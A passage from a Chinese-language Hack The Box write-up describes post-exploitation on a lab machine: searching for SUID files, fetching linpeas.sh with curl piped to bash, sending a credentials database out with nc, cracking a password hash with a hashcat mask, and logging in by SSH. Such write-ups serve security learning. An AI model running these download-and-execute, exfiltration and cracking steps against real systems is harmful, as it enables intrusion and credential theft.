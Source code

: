 ```
find / -perm -u=s -type f 2>/dev/null
```

![截图 2024-03-05 17-35-17](https://s2.loli.net/2024/03/05/P68tRlksbCVh3jd.png)

好像也没有什么可以利用的，传入linpeas看看提权吧

在有linpeas.sh的文件夹下用python开启http服务

```
python3 -m http.server 9960 -d ./
```

然后在靶机上访问我们的端口来执行linpeas.sh

```
cd /tmp | curl http://10.10.16.13:9960/linpeas.sh | bash
```

![截图 2024-03-05 17-48-42](https://s2.loli.net/2024/03/05/WZL4mXKB1FAeTlx.png)

这里看到爆出了一个db文件,我们把它下载下来看看,我们利用nc来传输

```
本机:nc -nlvp 6543 > test.db
靶机:nc 10.10.16.13 6543 < pupilpath_credentials.db
```

我们来看看有什么东西

```
sqllite3 ./test.db
```

发现了一堆密码hash但是爆破失败了,最后在[这篇文章](https://blog.csdn.net/m0_52742680/article/details/136472694?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170962270916800184174915%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=170962270916800184174915&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-136472694-null-null.142^v99^pc_search_result_base6&utm_term=hack%20the%20box%20perfection&spm=1018.2226.3001.4187)下得到启发,大概意思就是需要用户自己重置密码，重置的格式为{名字_名字的逆序_在(1,1000000000)之间的一个随机数}，尝试使用hashcat的掩码爆破功能破解

```
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d

```

![截图 2024-03-05 18-11-47](https://s2.loli.net/2024/03/05/p1vAyBrJsLq4Geo.png)

得到密码:suan_nasus_413759210

使用ssh登陆到主机

```
ssh susan@10.129.183.94
```



![截图 2024-03-05 18-15-50](https://s2.loli.net/2024/03/05/wkegxzBa4Unp9Lc.png)
